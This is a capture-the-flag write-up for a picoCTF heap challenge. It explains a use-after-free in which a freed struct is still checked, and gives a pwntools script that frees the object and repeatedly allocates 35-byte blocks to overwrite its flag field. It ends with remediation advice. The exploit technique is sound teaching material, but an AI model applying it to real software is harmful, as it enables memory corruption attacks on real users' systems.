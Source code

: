 ## Context

Upon execution, the given executable prompts the user for one of 6 choices in a loop:
1. Print the address and value of `x->flag` where `x` is a struct defined as follows:

```c
typedef struct {
	char a[10];
	char b[10];
	char c[10];
	char flag[5];
} object;

object *x;
```

2. Allocate a heap buffer of any desired size and fill it with an arbitrary value
3. Print the value of `x->flag`
4. Check if the win condition is met, that is, the value of `x->flag` is the string `"pico"`. If this is the case, the actual CTF flag is read from disk and printed.
5. Free `x`
6. Exit the program

Note that before prompting the user, the program allocates `x` on the heap using `malloc` and sets the value of `x->flag` to `"bico"`.

The goal of the challenge is to manipulate the value of `x->flag` without any direct way of doing so.

## Vulnerability

The main vulnerability is that the win condition can still be checked after `x` is free'd. If we run option 5 (free) and then option 4 (check win), the program reads unallocated memory. Additionally, by giving us the option to allocate and set our own block on the heap, there is a chance that the memory allocator will place the new block where `x` used to be, thus giving us control over the value of `x->flag`.

## Exploit

To maximize the chances of a new block being placed where `x` used to be, we should allocate a block of the same size. Since this struct only contains characters, each taking up one byte, the total size is `3*10+5=35` bytes.

The first 30 bytes of the struct do not matter for this challenge, so we can just write A's. The next 4 should be `pico` followed by the null terminator.

Even if matching the size increases the chance, the placement is unlikely to match on the first try. We should therefore repeat the operation many times.

We can automate this using [pwntools](https://docs.pwntools.com/en/stable/) in Python:

```python
from pwn import *

# chall = process("./chall") # For local testing
chall = remote("tethys.picoctf.net", 57592) # Challenge server

# Select option 5: Free object
chall.sendline(b"5")

# Keep allocating 35 bytes
for i in range(100):
    chall.sendline(b"2") # Select option 2: Allocate on heap
    chall.sendline(b"35") # Size of allocation
    chall.send(b"A" * 30)
    chall.sendline(b"pico\0")

chall.interactive()
```

After repeating the operation 100 times, the script returns standard I/O to us letting us print the value of `x->flag` to confirm our data is now present there, before running the victory check and obtaining our flag.

## Remediation

To prevent this vulnerability, the program should never read memory that is unallocated. One option could be to reallocate the object after it is free'd, or simply stop the program after it is free'd. Additionally, letting the user perform arbitrary allocations with no constraints should also be avoided.